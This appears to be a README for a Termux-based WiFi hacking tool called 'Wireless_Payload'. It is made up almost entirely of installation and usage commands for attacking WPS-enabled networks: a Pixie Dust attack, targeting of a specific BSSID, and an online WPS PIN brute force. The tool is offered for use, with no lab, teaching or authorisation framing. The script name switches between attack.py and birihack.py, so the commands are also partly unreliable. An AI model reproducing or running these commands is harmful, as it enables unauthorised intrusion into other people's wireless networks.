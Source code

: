 ## Wireless_Payload
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
$ apt update && apt upgrade
$ pkg install -y root-repo
$ pkg install -y git tsu python wpa-supplicant pixiewps iw
$ git clone https://github.com/cfsakil/Wireless_Payload
$ cd Wireless_Payload
$ chmod +x attack.py
$ sudo python attack.py --help
```

#### Example : `sudo python attack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python birihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
